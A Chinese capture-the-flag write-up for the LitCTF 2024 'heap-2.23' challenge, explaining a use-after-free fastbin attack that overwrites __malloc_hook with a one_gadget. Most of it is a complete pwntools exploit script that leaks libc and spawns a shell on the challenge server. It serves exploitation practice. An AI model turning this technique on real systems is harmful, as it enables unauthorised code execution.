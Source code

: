 ```yaml
---
title: LitCTF_2024_heap-2.23
date: 2024-11-11 13:00:00 +0800
categories: [uaf]
tags: [pwn]
---
```


# [LitCTF 2024]heap-2.23

`UAF`|`malloc_hook`

> Problem: [[LitCTF 2024]heap-2.23](https://www.nssctf.cn/problem/5614)

## 思路

* 解题大致思路
  edit功能存在一个UAF，通过该漏洞修改fd达到申请任意位置区块的目的，再利用edit功能修改对应区块地址的内容，达到利用目的。
  我这里选择了劫持`__molloc_hook`函数，需要注意的是，我们需要找到一个区块匹配所需要的结构体，详细可以调试看看`mallo_hook-35`这个位置，再往后填充，将`one_gadget`覆盖到`__malloc_hook`的位置。

## EXP

* 具体攻击代码

```python3
from pwn import *
context.terminal=["tmux",'splitw','-h']
context.log_level = 'debug'
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28035)
elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'content : \n',content)

create(0,400)   #0
create(1,10)    #1
delete(0)
show(0)
mallo_hook = u64(io.recvuntil(b'\n')[-7:-1].ljust(8,b'\x00'))-0x68
print(hex(mallo_hook))
delete(1)
lib_base = mallo_hook-lib.sym['__malloc_hook']
one_gadget = lib_base+0xf1247

create(2,0x60)
create(3,0x60)

delete(2)
delete(3)

edit(2,p64(mallo_hook-35))
create(4,0x60)
create(5,0x60)
create(6,0x60)
edit(6,cyclic(19)+p64(one_gadget))

create(7,0x60)
io.interactive()
```

## 总结

* 对该题的考点总结
